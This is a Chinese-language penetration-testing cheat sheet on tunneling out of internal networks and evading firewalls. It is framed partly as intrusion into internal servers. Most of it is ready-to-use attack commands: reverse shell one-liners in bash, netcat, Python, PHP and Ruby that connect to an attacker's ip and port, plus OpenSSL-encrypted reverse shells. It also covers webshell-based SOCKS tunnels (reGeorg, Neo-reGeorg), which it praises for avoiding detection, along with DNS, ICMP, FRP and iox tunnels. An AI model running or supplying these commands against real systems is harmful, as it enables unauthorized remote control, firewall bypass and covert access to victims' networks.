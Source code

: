 
# [](#%E5%86%85%E7%BD%91%E9%9A%A7%E9%81%93%E7%A9%BF%E9%80%8F)内网隧道穿透

## [](#1-%E5%9C%BA%E6%99%AF%E4%BB%8B%E7%BB%8D)1 场景介绍

### [](#11-%E7%9B%B8%E5%85%B3%E6%A6%82%E5%BF%B5)1.1 相关概念

内网穿透是：利用各种隧道技术，寻找防火墙允许的协议，混杂在正常流量中穿透，绕过网络防火墙的封锁，实现访问被封锁的目标网络。

> 被封装的数据包在隧道的两个端点之间通过公共互联网络进行路由。被封装的数据包在公共互联网络上传递时所经过的逻辑路径称为隧道。一旦到达网络终点，数据将被解包并转发到最终目的地。注意隧道技术是指包括数据封装、传输和解包在内的全过程。

隧道协议的主要作用包括：**规避防火墙**、**加密网络流量**。

常见的隧道列举如下：

-   应用层：SSH、HTTP、HTTPS、DNS。
-   传输层：TCP、UDP、常规端口转发。
-   网络层：IPv6、ICMP、GRE。

### [](#12-%E6%AD%A3%E5%90%91%E4%BB%A3%E7%90%86--%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86)1.2 正向代理 & 反向代理

正向代理中，proxy 和 client 同属一个 LAN，对 server 透明；

反向代理中，proxy 和 server 同属一个 LAN，对 client 透明。实际上 proxy 在两种代理中做的事都是代为收发请求和响应，不过从结构上来看正好左右互换了下，所以把前者那种代理方式叫做正向代理，后者叫做反向代理。

#### [](#121-%E6%AD%A3%E5%90%91%E4%BB%A3%E7%90%86)1.2.1 正向代理

`Lhost -> proxy -> Rhost`

Lhost 为了访问到 Rhost，向 proxy 发送了一个请求并且指定目标是 Rhost，然后 proxy 向 Rhost 转交请求并将获得的内容返回给 Lhost，简单来说正向代理就是 proxy 代替了我们去访问 Rhost。

#### [](#122-%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86)1.2.2 反向代理

`Lhost <----> proxy <----> firewall <----> Rhost`

和正向代理相反，Lhost 只向 proxy 发送普通的请求，具体让它转到哪里，proxy 自己判断，然后将返回的数据递交回来，这样的好处就是在某些防火墙只允许 proxy 数据进出的时候可以有效的进行穿透

### [](#13-%E8%BD%AC%E5%8F%91%E5%9C%BA%E6%99%AF)1.3 转发场景

#### [](#131-%E5%B8%B8%E8%A7%81%E7%9A%84%E5%9C%BA%E6%99%AF)1.3.1 常见的场景

**安全运维**：绕过堡垒机或防火墙实现对内网服务器进行远程管理

**内网渗透**：绕过堡垒机或防火墙实现对内网服务器进行攻击

目标处于网络边界，内外网都可以访问，网络边界主机未安装防火墙，所有端口都对互联网开放，此类业务场景已经极少出现。

目标处于内网，允许特定的应用层协议出网 (比如 HTTP、SSH、DNS) 等应用层协议 (3389、22、445、53、80、443 等)。

目标处于内网，不能访问外网，但是可以访问边界主机，防火墙策略限制外部网络直接访问内网的敏感端口 (3389、22、445 等)。

常见的转发方式：

-   反弹端口
-   反弹 shell
-   socks 代理

#### [](#132-%E9%98%B2%E7%81%AB%E5%A2%99%E8%A7%84%E5%88%99)1.3.2 防火墙规则

-   入网
    -   特定的端口映射 `80:80`
-   出网
    -   ICMP
    -   允许特定的协议 (HTTP、DNS、SSH、RDP)
    -   允许特定端口 (先主流端口，再全端口)

#### [](#133-%E8%BF%9E%E9%80%9A%E6%80%A7%E6%A3%80%E6%B5%8B)1.3.3 连通性检测

在建立隧道前，首先要检测目标机器是否能出网、什么协议可以出网。手动检测较麻烦，所以就有了这个工具，可配合如 wmiexec、psexec 等横向工具进行批量检测，该工具可以在 dnslog 中回显内网 ip 地址和计算机名，可实现内网中的快速定位可出网机器。

工具：[https://github.com/uknowsec/SharpNetCheck](https://github.com/uknowsec/SharpNetCheck)

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>Usage: SharpNetCheck -dns -host ceye.io<br>       SharpNetCheck -http -host/ip ceye.io<br>       SharpNetCheck -all -host ceye.io<br>``` |

## [](#2-%E5%8F%8D%E5%BC%B9-shell)2 反弹 shell

### [](#21-bash)2.1 Bash

#### [](#211-bash-tcp)2.1.1 Bash TCP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>bash -i >& /dev/tcp/ip/port 0>&1<br>bash -i > /dev/tcp/ip/port 0<& 2>&1<br>exec 5<>/dev/tcp/ip/port;cat <&5 \| while read line; do $line 2>&5 >&5; done<br>exec /bin/sh 0</dev/tcp/ip/port 1>&0 2>&0<br>0<&196;exec 196<>/dev/tcp/ip/port; sh <&196 >&196 2>&196<br>``` |

#### [](#212-bash-udp)2.1.2 Bash UDP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>Victim:<br>sh -i >& /dev/udp/10.0.0.1/4242 0>&1<br><br>Listener:<br>nc -u -lvp 4242<br>``` |

### [](#22-%E5%BA%94%E7%94%A8%E5%86%85%E5%8F%8D%E5%BC%B9-shell)2.2 应用内反弹 shell

#### [](#221-netcat)2.2.1 netcat

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>ncat ip port -e /bin/bash<br>nc -e /bin/bash ip port<br>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc ip port >/tmp/f<br>rm -f x; mknod x p && nc ip port 0<x \| /bin/bash 1>x<br>``` |

#### [](#222-python)2.2.2 python

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'<br><br># windows only<br>python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",port,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'<br>``` |

Python 环境下的 Tips

转成交互式 shell：`python -c 'import pty;pty.spawn("/bin/bash")'`

完全交互式 shell：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>$ python -c 'import pty; pty.spawn("/bin/bash")'<br>Ctrl-Z<br>$ stty raw -echo<br>$ fg<br>$ reset<br>$ export SHELL=bash<br>//$ export TERM=xterm-256color<br>``` |

#### [](#223-php)2.2.3 PHP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```php<br>php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'<br><br>php -r '$s=fsockopen("ip",port);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'<br>  <br>php -r '$s=fsockopen("ip",port);shell_exec("/bin/sh -i <&3 >&3 2>&3");'<br>``` |

#### [](#224-ruby)2.2.4 Ruby

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>ruby -rsocket -e'f=TCPSocket.open("ip",port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'<br><br># windows only<br>ruby -rsocket -e 'c=TCPSocket.new("ip","port");while(cmd=c.gets);IO.popen(cmd,"r"){\|io\|c.print io.read}end'<br>``` |

### [](#23-openssl-%E6%B5%81%E9%87%8F%E5%8A%A0%E5%AF%86)2.3 openssl 流量加密

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```bash<br># VPS 生成 SSL 证书的公私钥对<br>openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes<br><br># 在 VPS 监听反弹 shell<br>openssl s_server -quiet -key key.pem -cert cert.pem -port 4433<br><br># 在目标上用 openssl 加密反弹 shell 的流量(linux)<br>mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 \| openssl s_client -quiet -connect IP:port > /tmp/s; rm /tmp/s<br><br># windows<br>openssl s_client -quiet -connect [ip]:[port1] \| cmd.exe \| openssl s_client -quiet -connect [ip]:[port2]<br><br># 以上命令会从 [ip]:[port1] 获取命令发送给 cmd.exe执行，然后把结果返回到 [ip]:[port2]<br><br># 因此在本机需要启动两个 s_server<br><br># 从 port1 发送命令到 cmd<br><br>openssl s_server -quiet -key key.pem -cert cert.pem -port [port1] <br># 从 port2 获取发送给 port1 的命令执行结果<br><br>openssl s_server -quiet -key key.pem -cert cert.pem -port [port2]<br>``` |

### [](#24-all-in-one)2.4 All in One

以下是几个自动生成反弹 shell 命令的网站：

[https://mrxn.net/reverse\_shell.php](https://mrxn.net/reverse_shell.php)

[https://ares-x.com/tools/reverse-shell/](https://ares-x.com/tools/reverse-shell/)

一个在线编码的网站，防止因特殊字符被过滤，也可以用在 java.lang.Runtime.exec() 的 payload 中：

[http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)

## [](#3-%E5%BA%94%E7%94%A8%E5%B1%82%E9%9A%A7%E9%81%93)3 应用层隧道

### [](#31-http-%E9%9A%A7%E9%81%93)3.1 HTTP 隧道

#### [](#311-regeorg)3.1.1 reGeorg

**建议使用 nosocket 版**

工具地址：[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

使用方法：

1.  上传 tunnel 文件
2.  服务端运行：`python reGeorgSocksProxy.py -p 8080 -u http://ip:port/tunnel/tunnel.jsp`

#### [](#312-neo-regorg)3.1.2 Neo-reGorg

工具地址：[https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)

**Neo-reGeorg** 是一个重构了 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

-   提高 tunnel 连接安全性
-   提高可用性，避免特征检测
-   提高传输内容保密性
-   应对更多的网络环境场景

使用方法：

1.  设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到 WEB 服务器：`python3 neoreg.py generate -k password`
2.  使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理：`python3 neoreg.py -k password -u http://xx/tunnel.php`

注意

注意，如果你的工具，如 nmap 不支持 socks5 代理设置，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 等

#### [](#313-%E5%85%B6%E5%AE%83)3.1.3 其它

-   Tunna

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br># -u 远程代理脚本地址<br># -l 表示本地监听的端口<br># -r 远程映射端口<br># -v 输出详细数据<br># -a 代理远程连接的主机地址<br>python proxy.py -u http://ip/conn.aspx -l 1080 -v<br>python proxy.py -u http://ip/conn.aspx -l 5555 -r 8080 -s -v -n<br>``` |

-   [abptts](https://github.com/nccgroup/ABPTTS)
-   [pystinger](https://github.com/FunnyWolf/pystinger)
-   …

### [](#32-ssh-%E9%9A%A7%E9%81%93)3.2 SSH 隧道

参考：[https://3nd.xyz/AD-Pentest/AD-Pentest-Hidden-Tunnel/](https://3nd.xyz/AD-Pentest/AD-Pentest-Hidden-Tunnel/)

#### [](#321-%E6%9C%AC%E5%9C%B0%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)3.2.1 本地端口转发

在本地主机上开启端口流量转发功能

例如：在入侵者主机上执行（VPS 上执行主动连接）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -L 8866:192.168.10.3:23 -fN 192.168.10.2<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108224514.png-water_print](assets/1699409250-8fffb8180573074fa6cac7698dcde59a.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108224514.png-water_print")

#### [](#322-%E8%BF%9C%E7%A8%8B%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)3.2.2 远程端口转发

在远程主机上开启端口流量转发功能

例如：在堡垒机上执行（边界主机上执行回连）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -R 8866:192.168.10.3:23 -fN 192.168.10.1<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225357.png-water_print](assets/1699409250-26c271d58b7d17a70892194fdb60223d.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225357.png-water_print")

#### [](#323-%E5%8A%A8%E6%80%81%E8%BD%AC%E5%8F%91---socket)3.2.3 动态转发 - Socket

在本地主机上开启流量动态转发功能，并配置代理

例如：在入侵者主机上执行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -D 1100 -fN 192.168.10.2<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225846.png-water_print](assets/1699409250-1473b3690782bea9a90e395bdbd8cac6.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225846.png-water_print")

### [](#33-dns-%E9%9A%A7%E9%81%93)3.3 DNS 隧道

工具 [DNScat2](https://github.com/iagox86/dnscat2)

编译好的各种版本：[https://downloads.skullsecurity.org/dnscat2/](https://downloads.skullsecurity.org/dnscat2/)

#### [](#331-%E9%85%8D%E7%BD%AE%E8%A7%A3%E6%9E%90%E8%AE%B0%E5%BD%95)3.3.1 配置解析记录

DNS 解析记录中添加一条 A 记录，名称为 `ns1` 值为 VPS IP 地址

再添加一条 NS 记录，名称为任意一个子域名，指向地址为 `ns1.yourdomain.com`

#### [](#332-%E5%AE%89%E8%A3%85-dnscat2-%E6%9C%8D%E5%8A%A1%E7%AB%AF)3.3.2 安装 dnscat2 服务端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>apt-get install gem<br>apt-get install ruby-dev<br>apt-get install libpq-dev<br>apt-get install ruby-bundler<br>apt-get install git<br>git clone https://github.com/iagox86/dnscat2<br>bundle install<br>``` |

#### [](#333-%E5%90%AF%E5%8A%A8%E6%9C%8D%E5%8A%A1%E7%AB%AF)3.3.3 启动服务端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ruby ./dnscat2.rb dnscat.yuming.com -e open -c mima --no-cache<br>``` |

#### [](#334-%E5%90%AF%E5%8A%A8%E5%AE%A2%E6%88%B7%E7%AB%AF)3.3.4 启动客户端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 测试能否通信<br>dnscat-client.exe -ping dnscat.yuming.com<br><br># 连接<br>dnscat-client.exe --dns domain=dnscat.yuming.com -secret mima<br>``` |

## [](#4-%E4%BC%A0%E8%BE%93%E5%B1%82)4 传输层

SOCKS4 支持 telnet、FTP、HTTP 等 TCP 协议

SOCKS5 支持 TCP 与 UDP，并支持安全认证方案

### [](#41-frp)4.1 FRP

frp 采用 Golang 编写，支持跨平台，仅需下载对应平台的二进制文件即可执行。工具地址：[https://github.com/fatedier/frp](https://github.com/fatedier/frp)

编写配置文件，先通过 `./frps -c ./frps.ini` 启动服务端，再通过 `./frpc -c ./frpc.ini` 启动客户端。

服务端部署在我们具有公网 IP 的服务器上，客户端放在我们拿到权限的跳板服务器上，双端都需要对配置文件进行配置。

#### [](#411-%E6%9C%8D%E5%8A%A1%E7%AB%AF)4.1.1 服务端

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```fallback<br>[common]<br># frp 服务端端口<br>bind_port = 7000<br># 仪表盘端口<br>dashboard_port = 8888<br># frp服务端密码<br>token = 123456<br># 仪表盘默认账号密码<br>dashboard_user = admin<br>dashboard_pwd = admin<br>``` |

启动 FRP：`frps -c frps.ini`

#### [](#412-%E5%AE%A2%E6%88%B7%E7%AB%AF)4.1.2 客户端

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```fallback<br>[common]<br>server_addr = VPS IP<br>server_port = 7000<br># 与 vps 保持一致<br>token = 123456<br>[ssh]<br>type = tcp<br>local_ip = 127.0.0.1<br>local_port = 22<br>remote_port = 7000<br>use_encryption = true<br>use_compression = true<br>``` |

### [](#42-iox)4.2 iox

iox 是一个端口转发 & 内网代理工具，功能类似于`lcx`/`ew`，但是比它们更好。

工具地址：[https://github.com/EddieIvan01/iox](https://github.com/EddieIvan01/iox)

#### [](#421-%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)4.2.1 端口转发

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```bash<br># 端口转发 - 从本地 8888 转到 9999<br>./iox fwd -l 8888 -l 9999<br><br># 端口转发 - 从本地 8888，把流量转发到 1.1.1.1:9999<br>./iox fwd -l 8888 -r 1.1.1.1:9999<br><br># 连接 1.1.1.1:8888 和 1.1.1.1:9999, 在两个连接间转发<br>./iox fwd -r 1.1.1.1:8888 -r 1.1.1.1:9999<br>``` |

#### [](#422-%E4%BB%A3%E7%90%86)4.2.2 代理

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```bash<br># 在本地 0.0.0.0:1080 启动 Socks5 服务 - 正向代理<br>./iox proxy -l 1080<br><br><br># 反向代理<br># 在被控机开启 Socks5 服务，将服务转发到公网 VPS<br>./iox proxy -r 1.1.1.1:9999<br><br># 在 VPS 上转发 0.0.0.0:9999 到 0.0.0.0:1080<br># 你必须将两条命令成对使用，因为它内部包含了一个简单的协议来控制回连<br>./iox proxy -l 9999 -l 1080       // 注意，这两个端口是有顺序的<br><br># 接着连接内网主机<br># socks5://1.1.1.1:1080<br>proxychains rdesktop 192.168.0.100:3389<br>``` |

### [](#43-ssocks)4.3 sSocks

sSocks 是一个 socks 代理工具套装，可用来开启 socks 代理服务，支持 socks5 验证，支持 IPV6 和 UDP，并提供反向 socks 代理服务，即将远程计算机作为 socks 代理服务端，反弹回本地，极大方便内网的渗透测试。

工具地址：[http://sourceforge.net/projects/ssocks/](http://sourceforge.net/projects/ssocks/)

-   正向代理

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./ssocksd --bind 192.168.172.131 --port 1080<br>``` |

-   反向代理

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 攻击者机器监听 6020 端口转发到 6010<br>./rcsocks -l 6020 -p 6010 -vv<br><br># 受害者反向连接代理主机 6010 端口<br>./rssocks -s 攻击者IP:6010 -vv<br>``` |

## [](#5-%E7%BD%91%E7%BB%9C%E5%B1%82)5 网络层

### [](#51-icmp-tunnel)5.1 ICMP Tunnel

工具名称：[ICMPSH](https://github.com/inquisb/icmpsh)

#### [](#511-%E6%9C%8D%E5%8A%A1%E7%AB%AF)5.1.1 服务端

服务端首先需要关闭 ICMP 回显：`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

安装服务端：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>apt-get install python-impacket<br>python icmpsh_m.py 本机IP 目标机器公网IP<br>``` |

#### [](#512-%E5%AE%A2%E6%88%B7%E7%AB%AF)5.1.2 客户端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>icmpsh.exe -t 目标IP -d 500 -b 30 -s 128<br>``` |

